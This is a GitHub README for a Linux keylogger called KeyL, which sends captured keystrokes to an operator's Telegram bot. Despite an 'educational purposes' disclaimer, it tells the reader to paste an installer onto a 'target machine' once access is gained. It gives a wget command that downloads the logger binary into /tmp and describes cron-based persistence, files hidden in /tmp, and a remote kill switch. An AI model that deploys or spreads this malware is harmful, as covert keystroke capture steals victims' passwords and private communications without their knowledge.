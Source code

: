 # KeyL

**Disclaimer:**  
This project of a Key Logger is for **educational purposes**. Use it **only** in controlled environments or virtual machines that you own. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail it's dumb so use the brain.

## Description

This keylogger records keystrokes and saves them locally in a temporary buffer. When the number of captured keystrokes reaches a predefined threshold, the content is automatically sent to a Telegram bot controlled by the operator.

## How2UseIt

Once you gain access to the target machine, copy and paste the content of `toBePasted.txt` to activate the persistent logger.

You need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token** (Mandatory) 
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, just ask ChatGPT or refer to the [Telegram Bot API docs](https://core.telegram.org/bots).

2. **Customize Logger Behavior**  (Optional)
   You can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install.

By default, `toBePasted.txt` installs the static version hosted on GitHub:
```bash
wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
```


Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




